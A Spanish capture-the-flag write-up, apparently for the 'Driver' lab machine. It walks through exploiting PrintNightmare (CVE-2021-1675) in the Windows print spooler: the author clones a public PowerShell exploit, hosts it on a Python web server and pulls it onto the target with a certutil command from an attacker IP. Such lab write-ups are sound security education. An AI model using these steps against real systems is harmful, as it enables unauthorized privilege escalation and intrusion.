 De entre toda la información que obtenemos, vemos varias cosas interesantes pero nos vamos a centrar en el servicio **`spoolsv`**
que se encarga de gestionar la cola de impresión y se encarga de manejar la interacción con la impresora.
Buscando en Google sobre este servicio, encontramos rápidamente información de una vulnerabilidad conocida como [Print Nightmare](https://cybersync.org/blogs-en/exploitation_of_the_print_nightmare_vulnerability)

En la página referenciada hablan de dos vulnerabilidades similares, nos centraremos en [CVE-2021-1675](https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2021-1675)
Vemos que incluso es posible provocar un [Remote Code Execution (RCE)](https://beaglesecurity.com/blog/vulnerability/remote-code-execution.html) como usuario privilegiado.

Una vez más, realizando una búsqueda rápida en Google encontramos un repositorio en Github con un script escrito en PowerShell.
Este script nos permite la creación de un nuevo usuario con privilegios en el sistema. Vamos a clonarlo a nuestra máquina.

```console
p3ntest1ng:~$ git clone https://github.com/calebstewart/CVE-2021-1675
Clonando en 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (40/40), done.
remote: Compressing objects: 100% (32/32), done.
remote: Total 40 (delta 9), reused 37 (delta 6), pack-reused 0
Recibiendo objetos: 100% (40/40), 131.12 KiB | 1024.00 KiB/s, listo.
Resolviendo deltas: 100% (9/9), listo.
Actualizando archivos: 100% (10/10), listo.
p3ntest1ng:~$ ls -la
drwxr-xr-x any0ne any0ne  44 B  Fri Feb 25 19:10:47 2022  nightmare-dll
.rw-r--r-- any0ne any0ne 174 KB Fri Feb 25 19:10:47 2022  CVE-2021-1675.ps1
.rw-r--r-- any0ne any0ne 2.2 KB Fri Feb 25 19:10:47 2022  README.md
```

Nos compartimos el recurso levantando un servidor http con Python como hicimos anteriormente y nos lo descargamos en la máquina Driver.

```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://10.10.16.25/CVE-2021-1675.ps1 pn.ps1
****  Online  ****
  000000  ...
  02b981
CertUtil: -URLCache command completed successfully.
```

Recibimos las peticiones GET de nuestro lado:

```console
p3ntest1ng:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.106 - - [25/Feb/2022 19:29:22] "GET /CVE-2021-1675.ps1 HTTP/1.1" 200 -
10.10.11.106 - - [25/Feb/2022 19:29:23] "GET /CVE-2021-1675.ps1 HTTP/1.1" 200 -
```

Con esto listo, podemos probar a importar este script como módulo de PowerShell en la máquina Driver.
